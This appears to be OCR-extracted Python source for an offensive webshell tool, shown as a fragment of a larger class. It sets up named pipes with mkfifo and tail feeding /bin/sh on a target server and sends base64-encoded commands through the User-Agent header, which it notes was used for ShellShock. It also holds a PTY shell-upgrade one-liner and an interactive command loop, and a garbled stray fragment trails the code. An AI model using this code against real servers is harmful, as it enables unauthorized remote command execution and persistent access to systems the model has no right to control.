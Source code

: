 ```python
        MakeNamedPipes = f"mkfifo {self.stdin}; tail -f {self.stdin} | /bin/sh 2>&1 > {self.stdout}"
        self.RunRawCmd(MakeNamedPipes, timeout=0.1)

        # set up read thread
        print("[*] Setting up read thread")
        self.interval = interval
        thread = threading.Thread(target=self.ReadThread, args=())
        thread.daemon = True
        thread.start()

    # Read $session, output text to screen & wipe session
    def ReadThread(self):
        GetOutput = f"/bin/cat {self.stdout}"
        while True:
            result = self.RunRawCmd(GetOutput) #, proxy=None)
            if result:
                print(result)
                ClearOutput = f'echo -n "" > {self.stdout}'
                self.RunRawCmd(ClearOutput)
            time.sleep(self.interval)
        
    # Execute Command.
    def RunRawCmd(self, cmd, timeout=50, proxy="http://127.0.0.1:8080"):
        #print(f"Going to run cmd: {cmd}")
        # MODIFY THIS: This is where your payload code goes
        payload = cmd

        if proxy:
            proxies = self.proxies
        else:
            proxies = {}
       
        # MODIFY THIS: Payload in User-Agent because it was used in ShellShock
        headers = {'User-Agent': payload}
        try:
            r = requests.get(self.url, headers=headers, proxies=proxies, timeout=timeout)
            return r.text
        except:
            pass
            
    # Send b64'd command to RunRawCommand
    def WriteCmd(self, cmd):
        b64cmd = base64.b64encode('{}\n'.format(cmd.rstrip()).encode('utf-8')).decode('utf-8')
        stage_cmd = f'echo {b64cmd} | base64 -d > {self.stdin}'
        self.RunRawCmd(stage_cmd)
        time.sleep(self.interval * 1.1)

    def UpgradeShell(self):
        # upgrade shell
        UpgradeShell = """python3 -c 'import pty; pty.spawn("/bin/bash")' || python -c 'import pty; pty.spawn("/bin/bash")' || script -qc /bin/bash /dev/null"""
        self.WriteCmd(UpgradeShell)

prompt = "Please Subscribe> "
S = WebShell()
while True:
    cmd = input(prompt)
    if cmd == "upgrade":
        prompt = ""
        S.UpgradeShell()
    else:
        S.WriteCmd(cmd)
```

[Text.Encoding]: :ASCII)) .ReadToEnd() ;"
